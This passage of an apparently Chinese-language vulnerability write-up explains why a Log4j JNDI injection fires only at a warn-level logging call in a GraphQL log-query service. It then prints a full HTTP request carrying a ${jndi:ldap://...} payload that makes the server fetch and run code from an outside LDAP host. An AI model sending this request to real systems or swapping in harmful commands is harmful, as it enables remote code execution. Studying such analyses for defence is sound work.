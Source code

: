 **0x02****为什么只有这个点能触发**  
```
在org.apache.logging.log4j.spi.AbstractLogger#logIfEnabled方法中需要判断日志等级，只有上述那个点是log.warn
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5icW96HKeciaoYIm7cdw8kNLPxEbgyZK5eYf1xovywCNntHX5McOXuYP6c43ia0RhaiaQ3ODibaSacGaaUTyVic7x1xg/640?wx_fmt=png&from=appmsg "")  
```
其他的点是LOGGER.debug，当进入到org.apache.logging.log4j.core.Logger.PrivateConfig#filter方法中，在配置文件中要求的是info级别400，这里传进来的是debug级别为500，400小于500所以返回false
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5icW96HKeciaoYIm7cdw8kNLPxEbgyZK5eyz9PbVjbOtiaHM4XJqqn3ibiaOky10qtH5SeQHJGODAibWRCNzeibqv0Kvw/640?wx_fmt=png&from=appmsg "")  
```
在org.apache.logging.log4j.spi.AbstractLogger#logIfEnabled中就没有进入到org.apache.logging.log4j.spi.AbstractLogger#logMessage中
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5icW96HKeciaoYIm7cdw8kNLPxEbgyZK5e75cGX06xELXWlrE7HKhVHeqwWzpBuHCmiaaTw8MpAzU4K1kYzRtAP1A/640?wx_fmt=png&from=appmsg "")  
  
**0x03 数据包**  
```
POST /graphql HTTP/1.1
Host: 127.0.0.1:12800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 444
Origin: http://x.x.x.x:8059
DNT: 1
Connection: close
Referer: http://x.x.x.x:8059/
{
"query":"query queryLogs($condition: LogQueryCondition) {
queryLogs(condition: $condition) {
total
logs {
serviceId
${jndi:ldap://192.168.22.33:1389/basic/base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==}
serviceName
isError
content
}
}
}
",
"variables":{
"condition":{
"metricName":"test",
"state":"ALL",
"paging":{
"pageSize":10
}
}
}
}
```  
  